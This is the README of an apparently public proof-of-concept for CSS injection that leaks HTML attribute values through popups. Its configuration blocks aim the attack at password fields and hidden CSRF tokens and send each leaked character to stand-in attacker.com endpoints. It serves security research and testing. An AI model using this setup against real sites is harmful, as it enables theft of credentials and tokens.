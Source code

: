 # PoC - CSS Injection : popups

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

## Description

PoC to exploit a CSS injection using popups to retrieve the value of an attribute of an HTML element.

## Prerequisites

- There are some limitations when the value to be retrieved starts with a number. The target value must then be surrounded by single or double quotes and exploitation may not be possible if these characters are filtered by the application.
- Since on modern browsers only one popup can be opened at a time and only as a result of a user action (e.g. click), the alpahabet must be tested in a single request that may cause a `414 URI too long` error

## Configuration

Before using the PoC, adapt the following values:

```
/* ==== CONFIG ==== */
// Full URL of the vulnerable application
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  

// URL of the attacker's machine to retrieve the already known characters
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";

// URL of the attacker's machine to indicate a new identified character
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";

// Name of the targeted HTML element
const HTML_ELEMENT_NAME = "input";

// Name of the targeted HTML attribute
const HTML_ATTRIBUTE_NAME = "name";

// NAME value of the targeted HTML attribute
const HTML_ATTRIBUTE_VALUE = "password";

// True if the targeted field is of type "hidden" (use of CSS combinators ~*)
const isHiddenTypeElement = false;

// When the characters "'" and """ are filtered by the application it's not possible to retrieve a value starting with a number
const isQuoteFiltered = true;
```

## Usage

### Retrieving a value from a password field

```javascript
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "password";
const isHiddenTypeElement = false;
const isQuoteFiltered = true;
```

### Retrieving a value from a hidden field

```javascript
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "csrf-token";
const isHiddenTypeElement = true;
const isQuoteFiltered = true;
```

## Demo

### Retrieving a value from a password field

![](https://github.com/Sharpforce/PoC-CSS-injection/blob/master/attribute-selectors-popup/demo/attribute-selectors-popup-password.gif)

### Retrieving a value from a hidden field

![](https://github.com/Sharpforce/PoC-CSS-injection/blob/master/attribute-selectors-popup/demo/attribute-selectors-popup-hidden.gif)